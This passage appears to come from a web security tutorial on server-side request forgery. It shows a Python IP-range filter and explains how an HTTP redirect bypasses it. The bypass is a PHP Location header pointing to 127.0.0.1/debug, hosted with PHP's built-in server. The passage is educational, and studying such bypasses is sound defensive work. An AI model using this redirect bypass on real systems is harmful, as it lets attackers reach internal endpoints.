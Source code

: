 #### Bypass via HTTP Redirect

The web application can resolve domain names provided by the user and check whether they are private IPs to fix the bypass via DNS resolution. Let us look at the following improved `check_domain` function:

```python
def check_domain(domain):
    try:
        # resolve domain
        ip = socket.gethostbyname(domain)

        # parse IP
        ip = ipaddress.ip_address(ip)

        # check internal IP address space
        if ip in ipaddress.ip_network('127.0.0.0/8'):
            return False
        if ip in ipaddress.ip_network('10.0.0.0/8'):
            return False
        if ip in ipaddress.ip_network('172.16.0.0/12'):
            return False
        if ip in ipaddress.ip_network('192.168.0.0/16'):
            return False
        if ip in ipaddress.ip_network('0.0.0.0/8'):
            return False

        return True
    except:
        pass

    return False

```

In addition to resolving the domain name, the improved filter returns `False` by default and only returns `True` if no exception was raised. However, the filter does not account for HTTP redirects which the headless Chrome browser will follow. Thus, we can bypass the filter by providing a URL pointing to a web server under our control, redirecting the web application to the local debug endpoint. To do so, we can host the following PHP code on our web server:

```php
<?php header('Location: http://127.0.0.1/debug'); ?>

```

We can host the file using the built-in PHP web server:

```shell
php -S 0.0.0.0:80

[Sun Aug 13 10:55:35 2023] PHP 7.4.33 Development Server (http://0.0.0.0:80) started

```
